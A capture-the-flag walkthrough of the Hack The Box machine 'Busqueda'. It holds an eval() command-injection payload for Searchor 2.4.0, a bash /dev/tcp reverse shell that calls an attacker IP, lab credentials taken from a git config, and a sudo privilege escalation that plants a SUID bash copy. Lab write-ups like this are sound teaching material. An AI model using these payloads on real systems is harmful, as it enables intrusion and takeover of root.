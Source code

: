 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.208
nmap -p 22,80 -sCV 10.10.11.208
```

### HTTP Service
- [Apache/2.4.52](HTTP) + Flask (Werkzeug/2.1.2 Python/3.10.6).
- Redirects to: `http://searcher.htb`

### Virtual Host
Add to `/etc/hosts`:
```text
10.10.11.208 searcher.htb
```

### Directory Fuzzing
```bash
feroxbuster -u http://searcher.htb
```

Found:
- `/search`

---

## 💥 Exploitation (RCE via Python `eval()`)

### Vulnerable App
- Uses [Searchor](https://github.com/searchor/Searchor) CLI (v2.4.0).
- Eval-based CLI argument parsing vulnerable to command injection.

### Injection PoC
```bash
searchor search GitHub "' + __import__('os').popen('id').read() + '"
```

### Reverse Shell Payload (Injected via Burp)
```python
' + __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() + '
```

### Listener
```bash
nc -lnvp 443
```

---

## 🧠 Enumeration (as `svc`)

### Home Directory
```bash
cat ~/.gitconfig  # reveals username "cody"
```

### Web App Path
```bash
cd /var/www/app
ls -la
cat .git/config
```

- Remote repo: `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/...`

---

## 🔐 Credentials Discovered
- `cody / jh1usoih2bkjaspwe92` (from .git/config)
- `gitea / yuiu1hoiu4i5ho1uh` (from docker inspect ENV)

---

## 🧬 Gitea

Add to `/etc/hosts`:
```text
10.10.11.208 gitea.searcher.htb
```

- Login as `cody` with found creds.
- Also test `administrator / yuiu1hoiu4i5ho1uh` → ✅
- Found private repo: `scripts`
- Contains: `system-checkup.py`

---

## 🔼 Privilege Escalation

### `sudo -l`
```bash
sudo -l
```
```text
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

### Script Behavior
- `full-checkup` runs `./full-checkup.sh` from CWD.

### Exploit
```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

### Run Bash as Root
```bash
/tmp/0xdf -p
```

---

## 🏁 Flags

```bash
cat /home/svc/user.txt
cat /root/root.txt
```